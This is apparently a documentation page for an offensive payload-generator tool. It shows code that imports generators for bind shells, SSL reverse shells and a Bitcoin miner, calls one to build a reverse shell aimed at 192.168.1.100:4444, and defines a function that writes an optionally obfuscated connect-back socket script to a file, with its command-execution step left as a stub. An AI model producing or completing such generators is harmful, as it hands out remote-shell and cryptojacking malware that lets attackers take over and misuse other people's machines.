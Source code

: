 ## Payload Generation

### Core Functions

```python
from main import (
    gen_bind, gen_rev_ssl_tcp, gen_custom, 
    gen_btc_miner, validate_port, validate_ip
)

# Input validation
if validate_port("4444") and validate_ip("192.168.1.100"):
    # Generate reverse shell
    gen_rev_ssl_tcp()
```

### Custom Payload Development

Create custom payload generators:

```python
def generate_custom_payload(config):
    """Generate custom payload with specific requirements."""
    
    # Validate configuration
    if not config.host or not config.port:
        raise ValueError("Host and port required")
    
    # Generate payload template
    payload_template = f"""
import socket
import ssl
import base64
import zlib

def connect_back():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('{config.host}', {config.port}))
        
        if {config.use_ssl}:
            s = ssl.wrap_socket(s)
        
        # Custom payload logic here
        execute_commands(s)
        
    except Exception:
        pass

def execute_commands(socket):
    # Command execution logic
    pass

if __name__ == "__main__":
    connect_back()
"""
    
    # Apply obfuscation if enabled
    if config.obfuscate:
        payload_template = apply_obfuscation(payload_template)
    
    # Write to file
    with open(config.output_file, 'w') as f:
        f.write(payload_template)
```